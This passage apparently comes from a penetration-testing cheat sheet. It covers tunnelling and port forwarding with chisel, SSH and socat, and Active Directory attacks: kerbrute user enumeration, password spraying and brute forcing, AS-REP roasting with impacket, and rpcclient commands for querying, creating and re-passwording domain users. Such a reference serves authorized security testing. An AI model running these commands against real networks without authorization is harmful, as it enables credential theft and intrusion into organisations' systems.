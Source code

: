 `chisel client 10.0.0.1:8000 R:{remote-port}:{target-ip}:{target-port}`

### Getting internet access on remote machine with Chisel
*Run on local machine*

`chisel server -p 8000`

*Run on remote machine*

`chisel client 10.0.0.1:8000 {remote-port}:{target-address}:{target-port}`

### Port forwarding with SSH
`ssh -L {remote-port}:{target-ip}:{target-port} username@10.0.0.1 -p 22`

### Port forwarding with Socat
*Set up a listener on remote machine*

`socat tcp-listen:4444,reuseaddr,fork tcp:{ip2forward}:{port2forward}`

*Connect to listener from local machine*

`socat TCP:10.0.0.1:4444 -`


## Pentesting Active Directory
### Enumerate users
```
kerbrute userenum -d domain.com rockyou.txt
kerbrute passwordspray -d domain.com users.txt Password123
kerbrute bruteuser -d domain.com rockyou.txt user1
impacket-lookupsid domain.com/guest@10.0.0.1
impacket-GetNPUsers -no-pass -usersfile userlist.txt -dc-ip 10.0.0.1 example.com/
```

### Enumerate using RPCClient
| Commands | Descriptions |
| -------- | ------------ |
| rpcclient -U "" 10.0.0.1 | Connect to AD |
| querydominfo | Domain information query |
| srvinfo | Server information |
| enumdomusers | Enumerate users |
| enumdomgroupd | Enumerate groups |
| querygroup 0x200 | Group queries |
| queryuser username | User queries |
| enumprivs | Enumerate privileges |
| getdompwinfo | Get domain password information |
| getusrdompwinfo 0x200 | Get user domain password |
| createdomuser username | Create domain user |
| setuserinfo2 username 24 password | Set a password for domain user |
| deletedomuser username | Delete domain user |
| enumalsgroups builtin | Enumerate alias groups |
